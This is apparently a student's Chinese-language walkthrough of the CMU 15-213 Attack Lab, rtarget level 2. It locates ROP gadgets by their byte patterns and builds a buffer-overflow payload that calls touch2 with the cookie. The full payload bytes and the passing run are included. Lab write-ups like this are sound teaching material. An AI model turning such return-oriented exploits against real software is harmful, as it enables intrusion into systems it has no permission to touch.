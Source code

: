 * 找可以用哪些`movq S, D`的类型指令(S,D都是寄存器)。搜索`48 89`,只找到了`48 89 c7`,后面有`ret(c3)`，也就是说`movq %rax,%rdi`可以用。
* 找有没有`popq %rax`指令(因为在gadget fram中movq只能使用`movq %rax,%rdi`,找`popq %rax`就可以把栈上cookie弹到%rax)。搜索`58`,发现有，并且后面还有`ret(c3)`,天助我也!


所以我们的指令逻辑是：

```
popq %rax # 把cookie写到栈上弹到%rax (58 )
movq %rax,%rdi #  (实际需要：48 89 c7)  
ret     # 这里需要返回到touch2  (c3)
```

**b.从gadget fram中找到包含这些指令的地址**

1. 搜索`58`。这里就用所找到的第一个地址为:`4019ab`。`90`是nop指令。58 之后ret跳转到下一个gedget。
2. 搜索`48 89 c7`。这里用找到的`48 89 c7 c3`,地址为：`4019a2`。一个gedget解决。

刚好需要两个gadgets。

**c.构造**

开始构造:

1. 因为getbuf的栈空间是40字节。返回地址需要填第一个gedget的地址，也就是`4019ab`。
2. 然后指令会执行 popq %rax，%rsp会-8,返回地址+8的地方放我们的cookie:`59b997fa`
3. 然后popq %rax 执行完之后，就需要ret，跳转到第二个gedget的地址，也就是`4019a2`
4. 最后是touch2函数的函数地址,objdump反汇编再搜索一下即可`4017ec`。

```
65 65 65 65 65 65 65 65    
65 65 65 65 65 65 65 65    
65 65 65 65 65 65 65 65    
65 65 65 65 65 65 65 65    
65 65 65 65 65 65 65 65    
ab 19 40 00 00 00 00 00 /* 第一个gedget的地址,popq %rax，上面填充40字节 */ 
fa 97 b9 59 00 00 00 00  /* cookie  */
a2 19 40 00 00 00 00 00 /* 第二个gedget的地址，执行 movq %rax,%rdi */
ec 17 40 00 00 00 00 00 /* touch2函数的返回地址 */
```

**运行结果：**

```bash
$ ./hex2raw <exploit.txt >exploit-raw.txt 
$ ./rtarget <exploit-raw.txt  -q
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	bovik
	course	15213-f15
	lab	attacklab
	result	1:PASS:0xffffffff:rtarget:2:65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 65 AB 19 40 00 00 00 00 00 FA 97 B9 59 00 00 00 00 A2 19 40 00 00 00 00 00 EC 17 40 00 00 00 00 00
```
